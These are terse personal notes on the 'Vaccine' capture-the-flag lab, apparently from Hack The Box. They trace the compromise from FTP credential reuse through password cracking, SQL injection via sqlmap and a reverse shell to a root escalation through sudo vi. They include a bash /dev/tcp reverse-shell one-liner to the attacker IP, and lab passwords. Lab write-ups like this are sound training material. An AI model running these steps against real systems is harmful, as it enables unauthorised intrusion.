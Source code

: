 Starting Point Tutorial Name: Vaccine
	Target IP: 10.10.10.46
	Attacker IP: 10.10.14.195
	Initial nmap scan discovered ports 21/22/80 open
	!---Port 21
		switched to passive mode
		'passive'
		Used creds from Oopsie
			ftpuser / mc@F1l3ZilL4
			Download files 'a' and 'backup.zip'
			'a' just contains 'a'
			backup.zip is password protected.  No prior pw's work on it		
	!---Backup.zip file
		Used John the Ripper to bruteforce the password with the rockyou.txt file
			Extracted index.php and style.css files
	!---Index.php file
		Hash for admin password is 2cb42f8734ea607eefed3b70af13bbd3
		Used crackstation to get password qwerty789
	!---Port 80
		Logged inu using admin and qwerty789 pass
		Scanned site with SQLmap to find it is vulnerable
		Got PostgreSQL shell access with sqlmap
		Loaded netcat on attacker machine listening on port 777
		Initated reverse shell through postgreshell
#investigate	bash -c 'bash -i >& /dev/tcp/10.10.14.195/777 0>&1' 
		Found PostgreSQL username/pass in /var/www/html/dashboard.php
			"host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!"
#investigate	#They ran this command for some reason:  python3 -c "import pty;pty.spawn('/bin/bash')"
		Checked postgres's sudo privileges:
			sudo -l
			(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
		Used sudo to run /bin/vi /etc/postgresql/11/main/pg_hba.conf
		Shell escaped to root shell
		view contents of /root/root.txt to get flag
	